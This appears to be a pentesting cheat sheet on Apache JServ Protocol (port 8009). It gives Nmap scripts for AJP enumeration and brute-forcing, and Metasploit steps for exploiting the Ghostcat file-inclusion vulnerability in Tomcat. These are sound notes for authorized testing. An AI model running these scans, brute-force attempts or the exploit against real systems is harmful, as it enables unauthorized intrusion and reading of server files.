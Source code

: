 ```yaml
---
title: Apache JServ Protocol (AJP) Pentesting
desc: A binary protocol that can proxy inbound requests from a web server through to an application server that sits behind the web server. A default port is 8009.
tags: [8009, AJP, Apache, Metasploit, Nmap, Web]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ajp-auth -p 8009 <target-ip>
    nmap --script ajp-auth --script-args ajp-auth.path=/login -p 8009 <target-ip>
    nmap --script ajp-brute -p 8009 <target-ip>
    nmap --script ajp-headers -p 8009 <target-ip>
    nmap --script ajp-methods -p 8009 <target-ip>
    nmap --script ajp-request -p 8009 <target-ip>
    ```

<br />

## Vulnerabilities

1. **[Ghostcat File Inclusion](https://www.exploit-db.com/exploits/49039){:target="_blank"}{:rel="noopener"}**

    It's a vulnerability of **Tomcat AJP**

    - **Use Metasploit**

        ```sh
        msfconsole
        msf6 > use auxiliary/admin/http/tomcat_ghostcat
        msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts <target-ip>
        msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
        ```
